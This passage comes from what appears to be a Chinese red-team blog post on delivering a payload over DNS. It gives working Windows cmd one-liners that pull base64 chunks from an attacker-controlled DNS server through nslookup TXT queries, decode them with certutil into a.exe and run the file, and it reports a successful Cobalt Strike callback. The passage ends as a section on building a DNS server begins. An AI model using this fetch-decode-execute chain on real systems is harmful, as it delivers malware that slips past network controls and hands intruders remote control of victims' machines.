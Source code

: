 如此格式的base64字符串才可以被成功转换为二进制可执行程序，你可能还没有意识到这里有什么问题，第一个问题是字符串包含头部和尾部字符串；第二个问题是每一行的字符串最大长度是固定的，64个字符

HEX：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112020.png)

好家伙，16进制这个虽然说没有头部和尾部字符串，但是可是有一堆不好处理的字符，打印其实倒也无妨，主要是这些字符占用空间太大了，这个原因直接导致我们放弃HEX，使用
base64 ，为什么这么坚决后面大家就知道了

既然我们选择了 base64 ，那我们就需要修改刚才的命令，以适应base64首尾字符串以及每行最大长度的要求

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)"  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112022.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112024.png)

既然输出没有问题了，可以进行转换了，这里又涉及一个问题：`certutil` 只能对文件进行转换，所以我们需要将输出字符串输出到文件中，再使用 `&&`
进行连接命令，转换字符串为二进制可执行文件

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > ttt.txt && certutil -decode ttt.txt a.exe  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112025.png)

## 0x03 执行二进制程序[+清理操作]

这里清理操作我作为可选择项来进行考虑，因为通过执行二进制程序你已经获取到了一个
shell，这样的话，你可以通过shell来进行清理，所以这里就不进行清理操作了

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > ttt.txt && certutil -decode ttt.txt a.exe && cmd /c a.exe  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112027.png)

OK，成功上线 CS

* * *

文章到这里可以结束了，但是以我们团队的风格来说，一定要把这其中涉及的知识点和大坑点说清楚

## 0x04 自建DNS服务器

其实这里涉及两个场景，这也是精彩的地方，但也先不说，我们还是以上面这个案例为主来进行搭建，懂了这个，另一种场景你肯定也会懂的

DNS工作原理以及DNS服务器搭建过程可以参考下面几篇文章：
